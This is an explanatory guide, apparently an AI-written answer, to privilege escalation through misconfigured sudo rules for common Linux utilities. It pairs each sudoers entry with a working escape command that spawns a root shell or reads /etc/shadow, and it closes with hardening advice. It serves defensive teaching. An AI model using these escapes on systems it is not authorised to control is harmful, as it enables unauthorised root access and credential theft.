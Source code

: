 Privilege escalation vulnerabilities like granting sudo access to `less` occur when a user has been given the ability to run certain commands with elevated privileges without a full understanding of the potential risks. Here are some examples of commands or utilities that could allow privilege escalation if misconfigured, along with an explanation of how they can be exploited:

---

### 1. **Granting Sudo Access to `vim` or `nano`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/vim
     ```
   - **Exploit:**
     A user can open `vim` with elevated privileges and then spawn a shell:
     ```bash
     sudo vim
     :!bash
     ```
     This gives the user a root shell.

---

### 2. **Granting Sudo Access to `cat`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/cat
     ```
   - **Exploit:**
     A user can use `cat` to read sensitive files like `/etc/shadow` or `/etc/sudoers`:
     ```bash
     sudo cat /etc/shadow
     ```

---

### 3. **Granting Sudo Access to `awk`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/awk
     ```
   - **Exploit:**
     `awk` can be used to execute arbitrary commands:
     ```bash
     sudo awk 'BEGIN {system("/bin/bash")}'
     ```

---

### 4. **Granting Sudo Access to `find`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/find
     ```
   - **Exploit:**
     `find` can execute arbitrary commands:
     ```bash
     sudo find / -exec /bin/bash \;
     ```

---

### 5. **Granting Sudo Access to `python` or `perl`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/python
     ```
   - **Exploit:**
     Both `python` and `perl` can execute interactive shells:
     ```bash
     sudo python -c 'import os; os.system("/bin/bash")'
     sudo perl -e 'exec "/bin/bash";'
     ```

---

### 6. **Granting Sudo Access to `tar`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/tar
     ```
   - **Exploit:**
     `tar` can be used to execute commands:
     ```bash
     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
     ```

---

### 7. **Granting Sudo Access to `cp`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/cp
     ```
   - **Exploit:**
     The user could copy sensitive files (e.g., `/etc/shadow`) to an accessible location:
     ```bash
     sudo cp /etc/shadow /home/user/shadow_copy
     ```

---

### 8. **Granting Sudo Access to `bash` or `sh`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /bin/bash
     ```
   - **Exploit:**
     This effectively gives the user root access:
     ```bash
     sudo bash
     ```

---

### 9. **Granting Sudo Access to `less` (Revisited)**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/less
     ```
   - **Exploit:**
     As demonstrated earlier, users can drop to a shell:
     ```bash
     sudo less /etc/hosts
     !bash
     ```

---

### 10. **Granting Sudo Access to `rsync`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/rsync
     ```
   - **Exploit:**
     `rsync` can be used to spawn a shell:
     ```bash
     sudo rsync -e 'sh -c "sh"' localhost:/tmp /tmp
     ```

---

### 11. **Granting Sudo Access to `scp`**
   - **Misconfiguration:**
     ```
     user ALL=(ALL) NOPASSWD: /usr/bin/scp
     ```
   - **Exploit:**
     `scp` can execute commands on a remote host, potentially exposing sensitive data.

---

### How to Secure Against These Issues
1. **Follow the Principle of Least Privilege:**
   Only grant sudo access to commands absolutely necessary for a user's role.

2. **Use Command Whitelists:**
   Be specific about the allowed commands and avoid using wildcards.

3. **Audit Sudoers File:**
   Regularly review `/etc/sudoers` to ensure no unnecessary permissions are granted.

4. **Implement Logging and Monitoring:**
   Use tools to monitor and log all privileged commands executed by users.

5. **Use Alternatives for Restricted Tasks:**
   Consider using role-based access control (RBAC) systems for more granular control.